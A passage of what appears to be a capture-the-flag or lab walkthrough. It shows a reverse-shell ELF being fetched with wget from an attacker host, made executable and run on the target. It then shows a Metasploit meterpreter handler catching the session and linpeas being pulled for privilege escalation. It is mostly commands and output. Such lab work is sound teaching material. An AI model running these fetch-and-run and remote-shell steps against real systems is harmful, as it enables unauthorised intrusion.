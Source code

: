 From your shell on the target download the payload.

```bash
$ wget http://10.10.237.245:8081/rev_shell.elf
--2024-10-19 06:35:29--  http://10.10.237.245:8081/rev_shell.elf
Connecting to 10.10.237.245:8081... connected.
HTTP request sent, awaiting response... 200 OK
Length: 207 [application/octet-stream]
Saving to: 'rev_shell.elf'

     0K                                                       100% 60.0M=0s

2024-10-19 06:35:29 (60.0 MB/s) - 'rev_shell.elf' saved [207/207]
```

On your attack box run `msfconsole` and start a handler to receive the meterpreter connection.

```bash
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 10.10.237.245
lhost => 10.10.237.245
msf6 exploit(multi/handler) > set lport 4444
lport => 4444
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.237.245:4444
```

Run the payload on the target.

```bash
$ chmod +x rev_shell.elf
$ ./rev_shell.elf
```

You should get a meterpreter session.

```bash
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.237.245:4444
[*] Sending stage (1017704 bytes) to 10.10.114.155
[*] Meterpreter session 1 opened (10.10.237.245:4444 -> 10.10.114.155:43316) at 2024-10-19 12:40:41 +0100

meterpreter >
```

On your attack box `bg` your current session and download `linpeas`, which is a common script to look for privilege escalation vectors.

```bash
msf6 exploit(multi/handler) > wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
```
